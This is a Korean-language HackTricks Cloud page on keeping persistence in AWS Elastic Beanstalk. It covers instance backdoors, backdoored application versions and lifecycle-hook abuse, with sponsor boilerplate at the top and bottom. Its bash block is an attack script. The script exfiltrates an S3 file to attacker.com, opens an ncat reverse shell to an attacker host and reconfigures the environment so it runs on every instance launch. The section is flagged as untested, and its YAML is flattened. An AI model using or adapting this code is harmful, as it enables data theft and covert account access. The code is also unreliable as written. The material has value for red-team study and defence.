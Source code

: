 # AWS - Elastic Beanstalk Persistence

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 제로부터 전문가까지 배우세요!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **해킹 트릭을 공유하고 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 기여하세요.

</details>

## Elastic Beanstalk

자세한 정보는 확인하세요:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### 인스턴스 내 지속성

AWS 계정 내에서 지속성을 유지하기 위해 **인스턴스 내에 지속성 메커니즘을 도입**할 수 있습니다(cron 작업, ssh 키...), 이렇게 하면 공격자가 액세스하여 IAM 역할 **자격 증명을 메타데이터 서비스에서 도용**할 수 있습니다.

### 버전 내 백도어

공격자는 S3 저장소 내의 코드에 백도어를 설치하여 항상 백도어를 실행하고 예상 코드를 실행하도록 할 수 있습니다.

### 새로운 백도어 버전

실제 버전의 코드를 변경하는 대신, 공격자는 응용 프로그램의 새로운 백도어 버전을 배포할 수 있습니다.

### 사용자 지정 리소스 라이프사이클 후크 남용

{% hint style="info" %}
TODO: 테스트
{% endhint %}

Elastic Beanstalk은 인스턴스 프로비저닝 및 종료 중에 사용자 지정 스크립트를 실행할 수 있게 하는 라이프사이클 후크를 제공합니다. 공격자는 **라이프사이클 후크를 구성하여 주기적으로 데이터를 유출하거나 AWS 계정에 액세스를 유지하는 스크립트를 실행**할 수 있습니다.
```bash
bashCopy code# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
AWSEBAutoScalingGroup:
Metadata:
AWS::ElasticBeanstalk::Ext:
TriggerConfiguration:
triggers:
- name: stealthy-lifecycle-hook
events:
- "autoscaling:EC2_INSTANCE_LAUNCH"
- "autoscaling:EC2_INSTANCE_TERMINATE"
target:
ref: "AWS::ElasticBeanstalk::Environment"
arn:
Fn::GetAtt:
- "AWS::ElasticBeanstalk::Environment"
- "Arn"
stealthyLifecycleHook:
Type: AWS::AutoScaling::LifecycleHook
Properties:
AutoScalingGroupName:
Ref: AWSEBAutoScalingGroup
LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
NotificationTargetARN:
Ref: stealthy-lifecycle-hook
RoleARN:
Fn::GetAtt:
- AWSEBAutoScalingGroup
- Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>와 함께 제로부터 영웅이 되는 AWS 해킹 배우기!</summary>

다른 방법으로 HackTricks를 지원하는 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
